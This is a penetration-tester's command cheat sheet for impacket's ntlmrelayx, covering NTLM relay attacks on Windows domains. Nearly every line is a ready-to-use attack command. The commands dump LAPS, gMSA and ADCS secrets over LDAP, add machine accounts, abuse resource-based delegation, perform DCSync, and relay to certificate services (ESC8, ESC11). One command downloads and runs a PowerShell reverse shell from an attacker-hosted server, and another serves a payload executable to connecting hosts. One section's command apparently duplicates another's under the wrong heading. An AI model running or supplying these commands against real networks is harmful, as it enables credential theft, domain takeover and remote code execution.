# ntlmrelayx (imp)

% impacket-mitm, windows, ntlm

#plateform/linux  #target/remote #cat/ATTACK/RELAY


## ldap - dump all
```bash
ntlmrelayx -t ldap://<dc_ip> -smb2support --no-da --no-acl --dump-adcs --dump-laps --dump-gmsa --lootdir <ldap_dump_dir|ldap_dump> 
```

## ldap - add computer
```bash
ntlmrelayx -t ldap://<dc_ip> -smb2support --no-dump --add-computer <computer_name|jubeaz> '<computer_password|Zaebuj123456+->'
```

## ldap - escalate user
```bash
ntlmrelayx -t ldap://<dc_ip> -smb2support --no-dump --add-computer <computer_name|jubeaz> '<computer_password|Zaebuj123456+->'
```

## ldap - escalate user (RBCD)
```bash
ntlmrelayx -t ldap://<dc_ip> -smb2support --no-dump --escalate-user  '<user>' -delegate-access
```

## ldap - escalate computer (RBCD)
```bash
ntlmrelayx -t ldap://<dc_ip> -smb2support --no-dump --escalate-user  '<computer>$' -delegate-access
```

## dcsync - if zerologon vuln
```bash
ntlmrelayx -t dcsync://<dc_ip> -smb2support
```

## dcsync - if zerologon vuln (creds )
```bash
ntlmrelayx -t dcsync://<dc_ip> -smb2support -auth-smb <domain_fqdn>/<user>:'<password>'
```

## host a payload that will automatically be served to the remote host connecting
#plateform/linux #target/serve #cat/ATTACK/MITM 

```
ntlmrelayx.py -tf <targets_file> -smb2support -e <payload_file|payload.exe>
```

## reverseshell (nishang)
#plateform/linux #target/serve #cat/ATTACK/MITM 
Or powershell -e base64_string
```
ntlmrelayx.py -tf <targets_file> -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://<ip>:<http_port>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port <rport>"
```

## socks
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -tf <targets_file> -socks -smb2support
```

## authenticate and dump hash
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -tf <targets_file> -smb2support
```

## to use with mitm6 - relay to target
#plateform/linux #target/serve #cat/ATTACK/MITM 
Next use the socks with proxychains : 
proxychains smbclient //ip/Users -U domain/user

```
ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
```

## to use with mitm6 - delegate access
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access
```


## ADCS - relay attack ESC8
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -t http://<ca_ip>/certsrv/certfnsh.asp -smb2support --adcs --template <template>
```

## ADCS - relay attack ESC11
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -t rpc://<ca_ip> -rpc-mode ICPR -icpr-ca-name <ca_name> -smb2support
```